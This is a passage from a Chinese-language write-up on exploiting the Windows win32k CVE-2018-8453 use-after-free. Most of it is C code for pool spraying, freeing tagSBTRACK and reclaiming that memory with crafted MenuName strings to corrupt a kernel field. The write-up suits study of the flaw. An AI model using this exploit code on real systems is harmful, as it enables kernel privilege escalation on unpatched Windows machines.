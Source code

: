   
  
接下来在第一次释放的时候，就要创建大量的MenuName来占用释放的内存，由于可以直接修改MenuName的值，所以可以对应tagSBTRACK结构体的成员，将其设为上面记录的cEntries成员的地址，这样之后xxxSBTrackInit函数在最后调用HMAssignmentUnlock进行-1操作的时候就会修改cEntries，相应的代码如下：  
```
LONG64 My_fnDWORD(PVOID arg0)
{
    if (g_Flag_2018_8453 && *(PDWORD)arg0)
    {
        g_Flag_2018_8453 = FALSE;
        DestroyWindow(Window);
    }
 
    if (*((PULONG64)arg0 + 1) == 0x70)
    {
        CONST DWORD dwCount = 0x2000;
        DWORD i = 0, dwSize = 0x80;
        HACCEL hAccel[dwCount] = { NULL };
 
        // 占用0x80的空闲内存
        for (i = 0; i < dwCount; i++)
        {
            // 0x6 * 0x8 + 0x1C + 0x10 = 0x4E + 0x1C + 0x10 = 0x7A = 0x80
            ACCEL accel[0xD] = { 0 };
            hAccel[i] = CreateAcceleratorTable(accel, 0xD);
            if (!hAccel[i]) break;
        }
 
        // 释放tagSBTRACK内存
        SendMessage(New_ScrollBar, WM_CANCELMODE, 0, 0);
 
        lHMValidateHandle HMValidateHandle = (lHMValidateHandle)GetHMValidateHandle();
        if (!HMValidateHandle) goto exit;
 
        HINSTANCE handle = GetModuleHandle(NULL);
        if (!handle)
        {
            ShowError("GetModuleHandle", GetLastError());
            goto exit;
        }
 
        HWND hWnd[0x400] = { NULL };
        WNDCLASSW wc = { 0 };
        WCHAR MenuName[0x100] = { 0 }, ClassName[0x50] = { 0 };
 
        // 占用释放的tagSBTRACK内存
        memset(MenuName, 0x43, dwSize - sizeof(WCHAR) - POOL_HEADER_SIZE);
        *(PULONG64)((ULONG64)MenuName + 0x8) = g_ulTarAddr_2018_8453;
        *(PULONG64)((ULONG64)MenuName + 0x10) = g_ulTarAddr_2018_8453;
 
        for (i = 0; i < 0x400; i++)
        {
            memset(ClassName, 0, 0x50);
            sprintf((char*)ClassName, "WindowLeak%d", i);
 
            memset(&wc, 0, sizeof(wc));
            wc.hInstance = handle;
            wc.lpfnWndProc = DefWindowProc;
            wc.lpszMenuName = MenuName;
            wc.style = CS_HREDRAW | CS_VREDRAW;
            wc.lpszClassName = ClassName;
            if (!RegisterClassW(&wc)) 
            {
                ShowError("RegisterClassW", GetLastError());
                break;
```